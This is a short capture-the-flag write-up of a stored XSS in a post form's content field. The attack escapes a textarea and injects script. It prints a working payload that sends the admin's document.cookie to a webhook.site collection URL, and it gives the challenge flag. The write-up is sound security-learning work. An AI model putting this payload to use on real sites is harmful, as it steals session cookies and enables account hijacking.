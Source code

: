 # Challenge `Go on and censor my posts` writeup

- Vulnerability: XSS
- Where: In the post creation form's content field
- Impact: It allows the retrieval of a remote user's (in this case, the admin's) cookies

## Finding the vulnerability / Steps to reproduce

1. The post creation form contains both an `input` field (the title) and a `content` field. Attempting to add a regular XSS exploit payload has no effect (i.e., no information is leaked).
2. However, enclosing a payload with the `textarea` closure and opening tags allows the execution of an arbitrary script.
3. Just like in the previous challenges, a web server must be set up to intercept requests.
4. Using the previous script has a problem: it redirects the attacker to the web server's page (showing their own cookies) with no opportunity to confirm the post and send it to the admin for their cookies to be shown as well. An alternative involves using an XMLHttpRequest to send the request in the background (`</textarea><script>const xhr = new XMLHttpRequest(); xhr.open("POST", "https://webhook.site/<id>", false);xhr.send(document.cookie)</script><textarea>`), which, once submitted for approval, leads to the retrieval of the admin's cookie/flag (`SSof{I_do_not_get_this__Too_many_weird_characters__Automatic_reject}`).